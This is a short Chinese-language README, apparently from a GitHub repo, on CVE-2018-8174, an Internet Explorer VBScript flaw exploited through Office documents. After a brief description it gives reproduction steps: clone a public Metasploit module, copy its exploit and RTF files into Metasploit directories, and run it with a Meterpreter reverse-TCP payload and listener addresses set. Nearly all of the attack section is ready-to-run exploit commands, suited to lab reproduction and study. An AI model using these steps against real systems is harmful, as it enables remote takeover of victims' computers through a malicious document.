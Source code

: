 ## CVE-2018-8174
全球首例利用浏览器0day漏洞的新型Office文档攻击,该漏洞影响最新版本的IE浏览器及使用了IE内核的应用程序。用户在浏览网页或打开Office文档时都可能中招，最终被黑客植入后门木马完全控制电脑。微软在4月20日早上确认此漏洞，并于5月8号发布了官方安全补丁，对该0day漏洞进行了修复，并将其命名为CVE-2018-8174。

## 复现
下载exp:
```
git clone https://github.com/0x09AL/CVE-2018-8174-msf.git
cp CVE-2018-8174.rb /usr/share/metasploit-framework/modules/exploits/windows/fileformat/
cp CVE-2018-8174.rtf /usr/share/metasploit-framework/data/exploits/
```
启动msf:
```
msfconsole
use exploit/windows/fileformat/CVE-2018-8174
set PAYLOAD windows/meterpreter/reverse_tcp
set srvhost 192.168.0.116
set lhost 192.168.0.116
exploit
```

## 参考
1. https://github.com/0x09AL/CVE-2018-8174-msf
